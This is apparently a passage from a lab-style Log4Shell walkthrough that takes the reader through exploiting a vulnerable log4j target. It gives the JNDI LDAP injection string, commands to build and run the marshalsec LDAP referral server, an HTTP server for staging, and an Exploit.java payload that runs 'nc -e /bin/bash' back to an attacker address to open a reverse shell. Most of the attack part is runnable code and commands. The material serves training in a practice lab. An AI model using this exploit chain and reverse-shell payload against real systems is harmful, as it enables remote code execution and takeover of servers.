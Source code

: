 ## Exploitation:
- At this point, you have verified the target is in fact vulnerable by seeing this connection caught in your netcat listener. However, it made an LDAP request... so all your netcat listener may have seen was non-printable characters (strange looking bytes). We can now build upon this foundation to respond with a real LDAP handler.
- We will utilize a open-source and public utility to stage an "LDAP Referral Server". This will be used to essentially redirect the initial request of the victim to another location, where you can host a secondary payload that will ultimately run code on the target. This breaks down like so:
1. ${jndi:ldap://attackerserver:1389/Resource} -> reaches out to our LDAP Referral Server
2. LDAP Referral Server springboards the request to a secondary http://attackerserver/resource
3. The victim retrieves and executes the code present in http://attackerserver/resource
- This means we will need an HTTP server, which we could simply host with the following option (serving on port 8000):
```bash
$ python3 -m http.server
```
If you get stuck on any of the following steps, Check this [video.](https://www.youtube.com/watch?v=OJRqyCHheRE&ab_channel=TryHackMe){:target="_blank" rel="noopener"}
- Now will use the marshalsec utility offered at [https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec){:target="_blank" rel="noopener"}
```bash
$ git clone https://github.com/mbechler/marshalsec.git
$ cd marshalsec
```
Ultimately, this needs to run Java. Reviewing the README for this utility, it suggests using Java 8. (You may or may not have success using a different version, but to "play by the rules," we will match the same version of Java used on the target virtual machine)
- We must build marshalsec with the Java builder maven. If you do not yet have maven on your system, you can install it through your package manager
```bash
$ sudo apt install maven
```
Next, run the command to build the marshalsec utility:
```bash
$ mvn clean package -DskipTests
```
- With the marshalsec utility built, we can start an LDAP referral server to direct connections to our secondary HTTP server (which we will prepare in just a moment).
```bash
$ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://YOUR.ATTACKER.IP.ADDRESS:8000/#Exploit"
```
![8](../assets/img/Log4Shell/06.png)

- Now that our LDAP server is ready and waiting, we can open a second terminal window to prepare and our final payload and secondary HTTP server.
- Ultimately, the log4j vulnerability will execute arbitrary code that you craft within the Java programming language. If you aren't familiar with Java, don't fret -- we will use simple syntax that simply "shells out" to running a system command. In fact, we will retrieve a reverse-shell connection so we can gain control over the target machine!
- Create and move into a new directory where you might host this payload. First, create your payload in a text editor of your choice (mousepad, nano, vim, Sublime Text, VS Code, whatever), with the specific name Exploit.java:
```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```